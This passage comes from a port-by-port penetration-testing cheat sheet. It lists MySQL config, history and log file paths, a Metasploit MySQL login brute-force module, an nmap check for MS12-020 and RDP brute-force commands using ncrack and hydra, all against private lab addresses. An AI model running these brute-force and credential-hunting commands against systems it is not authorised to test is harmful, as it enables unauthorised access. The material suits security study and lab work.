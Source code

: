 	-   windows\my.ini
	-   winnt\my.ini
	-   [InstDir]/mysql/data/
	-   unix
	-   my.cnf
	-   /etc/my.cnf
	-   /etc/mysql/my.cnf
	-   /var/lib/mysql/my.cnf
	-   ~/.my.cnf
	-   /etc/my.cnf
	-   Command History
	-   ~/.mysql.history
	-   Log Files
	-   connections.log
	-   update.log
	-   common.log
  

  

**Brute-Force MySQL login**

-   Using Metasploit
	-  ` use auxiliary/scanner/mysql/mysql_login`
	-   `set rhosts 192.168.1.108`
	-   `set user_file /root/Desktop/user.txt`
	-   `set pass_file /root/Desktop/pass.txt`
	-   `exploit`
	  

  

**MySQL query command**

-   [https://devhints.io/mysql](https://devhints.io/mysql)



---
# 3389-RDP 

**Log in**
-   `rdesktop -u guest -p guest 10.11.1.5 -g 94%`

**Nmap**
-   `nmap -p 3389 --script=rdp-vuln-ms12-020.nse`
    

  

**Brute-force**
-   Using ncrack
	-   `ncrack -vv --user Administrator -P /root/passwords.txt rdp://192.168.1.101`
-   Using hydra
    -   `hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102`


---
# 5900-VNC 

